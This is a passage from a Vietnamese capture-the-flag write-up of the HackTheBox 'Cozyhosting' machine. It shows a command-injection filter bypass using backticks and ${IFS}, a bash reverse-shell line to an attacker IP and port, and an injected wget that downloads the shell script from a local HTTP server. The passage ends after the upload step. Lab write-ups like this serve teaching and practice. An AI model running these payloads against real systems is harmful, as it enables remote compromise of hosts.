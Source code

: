 Thử [bypass without space](https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#bypass-without-space)

![ping](/assets/img/2023-10-07-HTB-Cozyhosting/6.png)

Thử thêm [dấu nháy ngược](https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#inside-a-command)

![ping2](/assets/img/2023-10-07-HTB-Cozyhosting/7.png)

Vậy là thành công. Tôi sẽ sử dụng cách này để tải RCE lên máy.

## RCE

Đầu tiên, tất nhiên rồi, tạo RCE trước. Tạo 1 file với tên `rce.sh` với IP và port (dùng để tạo listener)

`bash -c "/bin/bash -i >& /dev/tcp/10.10.14.65/5555 0>&1"`

`cd` đến thư mục chứa rce phía trên và tạo local http server

```python
┌──(root㉿kali)-[/home/kali]
└─# python3 -m http.server 2345
Serving HTTP on 0.0.0.0 port 2345 (http://0.0.0.0:2345/) ...
```

Tiếp theo tải RCE lên máy (IP VPN của tôi đã thay đổi) theo lệnh

```python
host=10.10.14.65&username=`wget${IFS}http://10.10.14.65:2345/rce.sh${IFS}-P${IFS}/tmp`
```

![upload](/assets/img/2023-10-07-HTB-Cozyhosting/8.png)
